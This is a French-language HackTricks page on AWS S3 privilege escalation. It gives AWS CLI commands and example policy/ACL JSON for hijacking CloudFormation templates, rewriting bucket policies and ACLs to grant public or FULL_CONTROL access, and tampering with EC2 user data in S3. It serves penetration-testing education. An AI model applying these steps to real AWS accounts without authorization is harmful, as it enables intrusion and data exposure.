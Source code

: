 # AWS - Privilège d'escalade S3

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Un attaquant ayant ces autorisations sur des buckets intéressants pourrait être en mesure de pirater des ressources et d'escalader les privilèges.

Par exemple, un attaquant ayant ces **autorisations sur un bucket cloudformation** appelé "cf-templates-nohnwfax6a6i-us-east-1" sera en mesure de pirater le déploiement. L'accès peut être donné avec la politique suivante :

```json
{
    "Version":"2012-10-17",
    "Statement":[
        {
            "Effect":"Allow",
            "Action":[
                "s3:PutBucketNotification",
                "s3:GetBucketNotification",
                "s3:PutObject",
                "s3:GetObject"],
            "Resource":[
                "arn:aws:s3:::cf-templates-*\/*",
                "arn:aws:s3:::cf-templates-*"]
        },
        {
            "Effect":"Allow",
            "Action":"s3:ListAllMyBuckets",
            "Resource":"*"
        }]
    }
```

Et le piratage est possible car il y a une **petite fenêtre de temps entre le moment où le modèle est téléchargé** sur le bucket et le moment où le **modèle est déployé**. Un attaquant pourrait simplement créer une **fonction lambda** dans son compte qui sera **déclenchée lorsqu'une notification de bucket est envoyée**, et **pirate** le **contenu** de ce **bucket**.

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Le module Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) peut être utilisé pour automatiser cette attaque.\
Pour plus d'informations, consultez la recherche originale : [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Ce sont les autorisations pour **obtenir et télécharger des objets sur S3**. Plusieurs services à l'intérieur d'AWS (et à l'extérieur) utilisent le stockage S3 pour stocker des **fichiers de configuration**.\
Un attaquant ayant un **accès en lecture** à ceux-ci pourrait trouver des **informations sensibles** sur eux.\
Un attaquant ayant un **accès en écriture** à ceux-ci pourrait **modifier les données pour abuser d'un service et essayer d'escalader les privilèges**.\
Voici quelques exemples :

* Si une instance EC2 stocke les **données utilisateur dans un bucket S3**, un attaquant pourrait le modifier pour **exécuter du code arbitraire à l'intérieur de l'instance EC2**.

### `s3:PutBucketPolicy`

Un attaquant, qui doit être **du même compte**, sinon l'erreur `The specified method is not allowed will trigger`, avec cette autorisation sera en mesure de se donner lui-même plus de permissions sur le(s) bucket(s) en lui permettant de lire, écrire, modifier, supprimer et exposer des buckets.

```bash
# Mettre à jour la politique du bucket
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>
## Exemple de politique JSON
{
  "Id": "Policy1568185116930",
  "Version": "2012-10-17",
  "Statement": [
  {
      "Sid": "Stmt1568184932403",
      "Action": [
        "s3:ListBucket"
      ],
      "Effect": "Allow",
      "Resource": "arn:aws:s3:::welcome",
      "Principal": "*"
  },
  {
    "Sid": "Stmt1568185007451",
    "Action": [
      "s3:GetObject"
    ],
    "Effect": "Allow",
    "Resource": "arn:aws:s3:::welcome/*",
    "Principal": "*"
  }
  ]
}
```

### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Un attaquant pourrait abuser de ces autorisations pour **lui accorder plus d'accès** sur des buckets spécifiques.\
Notez que l'attaquant n'a pas besoin d'être du même compte. De plus, l'accès en écriture

```bash
# Mettre à jour l'ACL du bucket
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

## Exemple d'ACL JSON
## Assurez-vous de modifier le nom d'affichage et l'ID du propriétaire en fonction de l'ACL d'objet que vous avez récupérée.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## Une ACL devrait vous donner la permission WRITE_ACP pour pouvoir mettre une nouvelle ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Un attaquant pourrait abuser de ces autorisations pour lui accorder plus d'accès sur des objets spécifiques à l'intérieur des buckets.

```bash
# Mettre à jour l'ACL de l'objet du bucket
aws s3api get-object-acl --bucket <bucekt-name> --key flag 
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

## Exemple d'ACL JSON
## Assurez-vous de modifier le nom d'affichage et l'ID du propriétaire en fonction de l'ACL d'objet que vous avez récupérée.
{
  "Owner": {
    "DisplayName": "<DisplayName>",
    "ID": "<ID>"
  },
  "Grants": [
  {
    "Grantee": {
      "Type": "Group",
      "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
    },
  "Permission": "FULL_CONTROL"
  }
  ]
}
## Une ACL devrait vous donner la permission WRITE_ACP pour pouvoir mettre une nouvelle ACL
```

### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Un attaquant avec ces privilèges devrait être en mesure de mettre une Acl à une version d'objet spécifique

```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
``